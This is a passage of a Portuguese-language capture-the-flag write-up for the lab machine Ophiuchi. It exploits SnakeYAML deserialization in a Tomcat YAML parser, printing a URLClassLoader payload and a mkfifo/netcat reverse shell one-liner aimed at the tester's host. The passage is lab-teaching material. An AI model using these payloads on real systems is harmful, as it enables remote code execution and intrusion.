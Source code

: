 ### 8080/TCP - Tomcat

Acessando a página tomcat em `http://10.10.10.227:8080` vemos uma página para parsing de YAML, conforme podemos ver abaixo:

![Ophiuchi - Parse YAML](https://i.imgur.com/oDXT0S9.png){: .align-center}

Ao enviar um valor YAML simples (`teste: true`), a seguinte mensagem é retornada:

> Due to security reason this feature has been temporarily on hold. We will soon fix the issue!

Já que o Tomcat é um webserver para aplicações java e, com base na mensagem retornada, busquei por `java yaml rce vulnerability` onde encontrei [um post no Medium](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) sobre uma vulnerabilidade chamada **SnakeYAML**, em que a prova de conceito nesta página se parecia bastante com a página a ser explorada. Adicionalmente, como *Snake* faz referência ao nome da constelação *ophiucus*, mostra que estamos no caminho certo :smile:.

Seguindo a sugestão, iniciado um servidor http via `sudo python3 -m http.server 80` e enviado o seguinte payload ao website:

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.10.10/"]
  ]]
]
```

Conforme a PoC no site, o servidor busca um arquivo em `/META-INF/services/javax.script.ScriptEngineFactory` que, contenha uma classe Java a ser executada, o que pode ser confirmado com base nos logs do python http server.

```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.227 - - [28/Feb/2021 12:19:22] code 404, message File not found
10.10.10.227 - - [28/Feb/2021 12:19:22] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 404 -
```

## Acesso inicial

Para obter o acesso inicial utilizei o projeto mencionado no post encontrado ([artsploit/yaml-payload: A tiny project for generating SnakeYAML deserialization payloads](https://github.com/artsploit/yaml-payload)).

```bash
git clone https://github.com/artsploit/yaml-payload.git
```

Conforme recomendado, vamos colocar o nosso payload na classe chamada `AwesomeScriptEngineFactory.java` e compilá-lo, para que seja invocado utilizando o mecanismo que pudemos validar no formulário.

Ao modificar inicialmente o arquivo `yaml-payload\src\artsploit\AwesomeScriptEngineFactory.java`, incluí o payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f`, porém como possui alguns redirects e pipelines (`>` e `|`) notei que não funcionou conforme esperado e parti para a estratégia de colocar o payload em um arquivo de texto na máquina local, a ser baixado via HTTP para a subsequente execução na máquina alvo conforme abaixo:
